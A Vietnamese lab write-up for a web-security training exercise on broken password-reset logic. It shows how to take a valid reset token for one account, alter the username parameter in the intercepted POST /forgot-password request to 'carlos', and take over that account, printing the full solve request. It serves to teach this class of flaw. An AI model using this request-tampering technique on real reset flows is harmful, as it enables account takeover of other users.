








# Authentication Lab 03: Password Reset Broken Logic

## Mục tiêu
Đặt lại mật khẩu của `carlos` bằng lỗi logic trong luồng quên mật khẩu, sau đó đăng nhập vào trang My Account của nạn nhân.

## Đề bài

<br><br>

## Bước 1: Tạo luồng reset hợp lệ từ tài khoản của mình
Đăng nhập bằng tài khoản được cấp:

```text
wiener:peter
```

Từ trang login, chọn `Forgot password?`, nhập `wiener` để nhận link reset qua email.


<br><br>

<br><br>

<br><br>

<br><br>

Mở link trong email để đến form đặt mật khẩu mới. URL chứa token reset hợp lệ:

```text
/forgot-password?temp-forgot-password-token=...
```


<br><br>

## Bước 2: Bắt request đổi mật khẩu và sửa username
Nhập mật khẩu mới bất kỳ và chặn request `POST /forgot-password` bằng Burp Repeater.


<br><br>

Request quan trọng (rút gọn):

```http
POST /forgot-password?temp-forgot-password-token=<token_hợp_lệ_của_wiener> HTTP/2
Content-Type: application/x-www-form-urlencoded

temp-forgot-password-token=<token_hợp_lệ_của_wiener>&username=carlos&new-password-1=ok&new-password-2=ok
```

Gửi request với `username=carlos` (thay vì `wiener`) và server vẫn trả về thành công.

## Bước 3: Vì sao chỉ đổi username mà khai thác được?
Lỗi logic nằm ở chỗ backend **không ràng buộc token reset với đúng user**.  
Nó chỉ kiểm tra token hợp lệ, nhưng lại tin tham số `username` trong body để quyết định tài khoản nào bị đổi mật khẩu.

Nên khi giữ token hợp lệ của `wiener` nhưng sửa `username=carlos`, mật khẩu của `carlos` vẫn bị reset.

## Bước 4: Đăng nhập bằng mật khẩu mới của carlos
Dùng mật khẩu vừa đặt (`ok`) để đăng nhập tài khoản `carlos` và truy cập My Account.


<br><br>

## Payload/Request Solve

```http
POST /forgot-password?temp-forgot-password-token=<token_hợp_lệ> HTTP/2
Content-Type: application/x-www-form-urlencoded

temp-forgot-password-token=<token_hợp_lệ>&username=carlos&new-password-1=ok&new-password-2=ok
```

## Kết quả
Đổi thành công mật khẩu của `carlos` và hoàn thành lab.
